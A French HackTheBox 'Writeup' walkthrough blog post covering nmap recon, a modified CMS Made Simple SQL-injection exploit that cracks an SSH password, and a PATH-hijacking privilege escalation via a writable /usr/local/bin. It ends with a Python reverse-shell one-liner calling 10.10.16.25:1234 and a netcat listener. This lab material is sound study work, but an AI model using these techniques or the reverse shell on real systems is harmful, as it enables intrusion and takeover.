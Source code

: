 ```yaml
---
layout: post
title: HackTheBox - Writeup 
---
```


![Writeup]({{ site.baseurl }}/images/writeup.jpg){:class="img-responsive"}

~~~bash
root@kali:~# nmap -sCV 10.10.10.138 -p- 
Starting Nmap 7.70 ( https://nmap.org ) at 2019-06-12 21:19 CEST
Nmap scan report for 10.10.10.138
Host is up (0.021s latency).
Not shown: 65533 filtered ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey: 
|   2048 dd:53:10:70:0b:d0:47:0a:e2:7e:4a:b6:42:98:23:c7 (RSA)
|   256 37:2e:14:68:ae:b9:c2:34:2b:6e:d9:92:bc:bf:bd:28 (ECDSA)
|_  256 93:ea:a8:40:42:c1:a8:33:85:b3:56:00:62:1c:a0:ab (ED25519)
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
| http-robots.txt: 1 disallowed entry 
|_/writeup/
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Nothing here yet.
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 116.61 seconds
~~~

Sur le port 80, une page web toute bête, elle indique qu'un script surveille les requêtes web et nous bannit en cas de bruteforce. 
Ceci se confirme avec l'usage de tcpwrapper comme l'indique Nmap.

Faisons un tour des fichiers communs dans la recherche d'informations web : 
- index.php : rien 
- Login.php : rien
- robots.txt : Bingo ! 

~~~bash
# Disallow access to the blog until content is finished.
User-agent: * 
Disallow: /writeup/
~~~

Rendez-vous dans le sous dossier : 


![writeup-1.png]({{ site.baseurl }}/images/writeup-1.png)

Nous trouvons un site basique, voyons les requêtes envoyées par le navigateur a la recherche d'indice : 

~~~bash
Host: 10.10.10.138
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Cookie: CMSSESSID9d372ef93962=b771ajp0ef695nuv0h5u4u1bd6
Connection: keep-alive
Upgrade-Insecure-Requests: 1
If-Modified-Since: Fri, 19 Apr 2019 08:36:26 GMT
Cache-Control: max-age=0
~~~

Un cookie du nom de `CMSSESSID` indique ici l'existence d'un framework ou d'un CMS. 
En tapant ceci sur google nous trouvons des pages de politique de cookie signalant ceci : 

~~~bash
Le cookie commençant par **CMSSESSID **est créé par notre outil de gestion de contenu, CMS Made Simple, pour assurer son bon fonctionnement. 
~~~

Voyons voir les exploits disponibles : 

~~~bash
root@kali:~# searchsploit CMS Made Simple
[je passe les détails, beaucoup d'exploits]
CMS Made Simple < 2.2.10 - SQL Injection                        | exploits/php/webapps/46635.py
~~~

En regardant les requêtes envoyées lorsque l'on clique sur les liens de la page, nous trouvons ceci : 

~~~bash
http://10.10.10.138/writeup/index.php?page=writeup
~~~
Cela me semble assimilable à une potentielle source d'injection SQL. Je vais donc tenter cette piste. 

Je vais donc récupérer l'exploit :

~~~bash
cp /usr/share/exploitdb/exploits/php/webapps/46635.py ./exploit.py
~~~

Puis le modifier : 

~~~bash
url_vuln = options.url + '/moduleinterface.php?mact=News,m1_,default,0'
session = requests.Session()
dictionary = '1234567890qwertyuiopasdfghjklzxcvbnmQWERTYUIOPASDFGHJKLZXCVBNM@._-$'
flag = True
password = ""
temp_password = ""
TIME =17
db_name = ""
output = ""
email = "jkr@writeup.htb"
salt = ''
~~~

Avant de le lancer : 

~~~bash
root@kali:~/writeup# python exploit-sql.py -u http://10.10.10.138/writeup/ --crack -w /usr/share/wordlists/rockyou.txt
[+] Salt for password found: 5a599ef579066807
[+] Username found: jkr
[+] Email found: jkr@writeup.htbjkr@writeup.htb
[+] Password found: 62def4866937f08cc13bab43bb14e6f7
[+] Password cracked: raykayjay9
~~~

> Note : cet exploit est d'une lenteur et d'une instabilité invraisemblable. Il faut donc tweaker la variable Time entre 15 et 30. Laisser tourner durant 8 a 10 minutes et ensuite retenter en cas d'échec.
> Conseil : Faire cette partie a coté d'un autre challenge ou d'une autre VM car elle a pris 3 jours dans mon cas.

Maintenant, testons les mots de passe partout : 

~~~bash
root@kali:~/writeup# ssh jkr@10.10.10.138
jkr@10.10.10.138's password: 
Linux writeup 4.9.0-8-amd64 x86_64 GNU/Linux

The programs included with the Devuan GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Devuan GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sun Jun 16 03:16:24 2019 from 10.10.14.2
jkr@writeup:~$ whoami
jkr
jkr@writeup:~$ cat user.txt 
d4e493fd4068afc9eb1aa6a55319f978
~~~

Maintenant, place au privesc, avec pspy : 

>Note : cet outil permet aux users d'espionner les commandes et les appels au filesystem effectués par les autres utilisateurs, même root.

De l'autre côté je lance une deuxième connexion SSH pour faire des tests et voici ce que j'obtiens :

~~~bash
jkr@writeup:~$ ./pspy 
2019/06/16 08:35:30 CMD: UID=0    PID=2467   | sshd: [accepted]
2019/06/16 08:35:30 CMD: UID=0    PID=2469   | sshd: [accepted]
2019/06/16 08:35:41 CMD: UID=0    PID=2470   | sh -c /usr/bin/env -i PATH=/usr/local/sbin:/usr/local/bin:
/usr/sbin:/usr/bin:/sbin:/bin run-parts --lsbsysinit /etc/update-motd.d > /run/motd.dynamic.new 
2019/06/16 08:35:41 CMD: UID=0    PID=2471   | /usr/bin/env -i PATH=/usr/local/sbin:/usr/local/bin:/usr/s
bin:/usr/bin:/sbin:/bin run-parts --lsbsysinit /etc/update-motd.d 
~~~

Après quelques recherches et l'utilisation de `pspy -pf`je découvre que la connexion SSH s’effectue en plusieurs temps :

- Connexion + négociation (échange de clé et consort)
- Appel au script d’initialisation de la session 
    - Mise en place du path 
    - Appel d'un script de génération de MOTD personnalisé 

Le fameux script est affichable :

~~~bash
jkr@writeup:~$ cat /etc/update-motd.d/10-uname 
#!/bin/sh
uname -rnsom
~~~

Comme nous le voyons dans la sortie de pspy, le path est le suivant : 
`/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin run-parts`

Voyons voir les droits disponibles : 

~~~bash
jkr@writeup:~$ ls -aldh {/usr/local/sbin,/usr/local/bin,/usr/sbin,/usr/bin,/sbin,/bin}
drwxr-xr-x 2 root root  4.0K Apr 19 04:24 /bin
drwxr-xr-x 2 root root  4.0K Apr 19 04:14 /sbin
drwxr-xr-x 2 root root   20K Apr 24 13:13 /usr/bin
drwx-wsr-x 2 root staff  20K Jun 16 09:08 /usr/local/bin
drwx-wsr-x 2 root staff  12K Apr 19 04:11 /usr/local/sbin
drwxr-xr-x 2 root root  4.0K Apr 19 07:31 /usr/sbin
~~~

Pour simplifier, le chemin vers `uname` est le suivant :

~~~bash
jkr@writeup:~$ which uname
/bin/uname
~~~

Les groupes de l'utilisateur *jkr* sont les suivants : 

~~~bash
jkr@writeup:~$ groups
jkr cdrom floppy audio dip video plugdev staff netdev
~~~

Il est donc possible d’écrire dans le dossier `/usr/local/bin`.
Mais que se passe t'il si je créé un script dans le chemin `/usr/local/bin` avec le même nom (uname)? 

~~~bash
jkr@writeup:~$ vi /usr/local/bin/uname
		    #!/bin/bash
            echo "coucou"
 jkr@writeup:~$ chmod +x /usr/local/bin/uname
 jkr@writeup:~$ uname                                                                                     
 coucou 
~~~

Le bash exécute bêtement mon script, maintenant soyons plus dangereux :

~~~bash                                                                                                  
jkr@writeup:~$ vi /usr/local/bin/uname
	    #!/bin/bash
        whoami
        cat /root/root.txt
jkr@writeup:~$ uname                                                                                     
jkr                                                                                                      
cat: /root/root.txt: Permission denied                                                                   
jkr@writeup:~$ exit                                                                                      
logout                                                                                                   
Connection to 10.10.10.138 closed.                                                                       
root@kali:~/writeup# ssh jkr@10.10.10.138                                                                
jkr@10.10.10.138's password:                                                                             
root                                                                                                     
eeba47f60b48ef92b734f9b6198d7226        
~~~

Comme vous le voyez, nous sommes root ! 
Pour permettre de militariser l'attaque nous pourrions créer un utilisateur ou encore placer un reverse shell sur la cible pour s'y connecter directement :

~~~bash
#!/bin/bash

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.25",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
~~~

Une fois sur le reverse shell : 

~~~bash
root@kali:~/writeup# netcat -nlvp 1234                                                                   
listening on [any] 1234 ...                                                                              
connect to [10.10.16.25] from (UNKNOWN) [10.10.10.138] 56362                                             
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)

# python -c 'import pty;pty.spawn("/bin/bash")
# export TERM=xterm
crtl-Z
root@kali:~/writeup# stty raw -echo 
root@kali:~/writeup# netcat -nlvp 1234
~~~

> Note : PSPY est dispo ici sous forme de release exécutable: https://github.com/DominicBreuker/pspy 
